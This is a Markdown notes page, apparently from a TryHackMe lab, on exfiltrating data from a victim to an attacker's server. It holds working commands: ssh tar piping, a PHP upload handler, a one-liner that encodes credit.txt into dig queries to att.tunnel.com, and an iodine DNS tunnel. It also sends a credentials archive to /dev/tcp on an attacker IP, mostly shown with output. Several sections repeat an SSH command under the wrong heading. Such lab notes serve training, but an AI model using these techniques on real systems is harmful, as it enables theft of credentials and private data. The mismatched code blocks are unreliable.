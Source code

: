 ```yaml
---
title: Exfiltration
description:  Commonly used methods of sending data from victim to the attacker's C2 server
---
```



## Over SSH
```bash
tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```
1. We used the tar command the same as the previous task to create an archive file of the task5 directory.
2. Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

If we check the attacker machine, we can see that we have successfully transmitted the file.


## Over HTTP
```bash
tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```
To exfiltrate data over the HTTP protocol, we can apply the following steps:
	1. An attacker sets up a web server with a data handler.
	2. A C2 agent or an attacker sends the data. .
	3. The webserver receives the data and stores it. In our case, the contact.php receives the POST request and stores it into /tmp.

The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the /tmp directory as http.bs64 file name.
```php
<?php
If (isset($_POST['file'])) {
$file=fopen("/tmp/http.bs64","w");
fwrite($file,$_POST['file']);
fclose($file);
}
?>
```

## Over DNS 
```bash
$ cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
```
- credit.txt to base64: TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==
```bash
$ cat credit.txt | base64 | tr -d "\n" | fold -w18

TmFtZTogVEhNLXVzZX
IKQWRkcmVzczogMTIz
NCBJbnRlcm5ldCwgVE
hNCkNyZWRpdCBDYXJk
OiAxMjM0LTEyMzQtMT
IzNC0xMjM0CkV4cGly
ZTogMDUvMDUvMjAyMg
pDb2RlOiAxMzM3Cg==
```

### Iodine
A piece of software that lets you tunnel IPv4 data through a DNS server. This can be usable in different situations where internet access is firewalled, but DNS queries are allowed
```bash
$ sudo iodined -f -c -P pass123 10.1.1.1/24 att.tunnel.com 
```
- Ensure to execute the command with sudo. The iodined creates a new network interface (dns0) for the tunneling over the DNS.
- The -f argument is to run the server in the foreground.
- The -c argument is to skip checking the client IP address and port for each DNS request.
- The -P argument is to set a password for authentication.
- The 10.1.1.1/24 argument is to set the network IP for the new network interface (dns0). The IP address of the server will be 10.1.1.1 and the client 10.1.1.2.
att.tunnel.com is the nameserver we previously set.

[https://github.com/yarrick/iodine](https://github.com/yarrick/iodine)




## Over TCP
The TCP socket technique can be used in a non-secured environment where there are no network-based security products.  This exfiltration type is easy to detect because we rely on non-standard protocols.

```bash
tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

First, we need to prepare a listener on any port you specify. In our case, we choose port 8080.
```bash
$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```
- The nc command will receive data on port 8080. 
- Once we receive the data, we store it in the /tmp/ directory and call it task4-creds.data.

We have a sample file with a couple of credentials on the victim machine.
```bash
$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
```
Exfiltrate the data
```bash
$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080 
0+1 records in 
0+1 records out 
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```
1. We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.
2. The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.
3. We then passed the created tar file to the base64 command for converting it to base64 representation.
4. Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.
5. Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.
```bash
thm@jump-box$ ls -l /tmp/ -rw-r--r-- 1 root root 240 Apr 8 11:37 task4-creds.data
```
On the attaker's machine, we will be using the dd tool to convert it back. 
```bash
$ cd /tmp/
tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)
```
1. We used the dd command to convert the received file to ASCII  representation. We used the task4-creds.data as input to the dd command. 
2. The output of the dd command will be passed to the base64 to decode it using the -d argument.
3. Finally, we save the output in the task4-creds.tar  file.
```bash
$ tar xvf task4-creds.tar 
task4/ 
task4/creds.txt
```
1. We used the tar command to unarchive the file with the xvf arguments.
2. The x is for extracting the tar file, the v for verbosely listing files, and the f is for using an archive file.
```bash
$ cat task4/creds.txt 
admin:password 
Admin:123456 
root:toor
```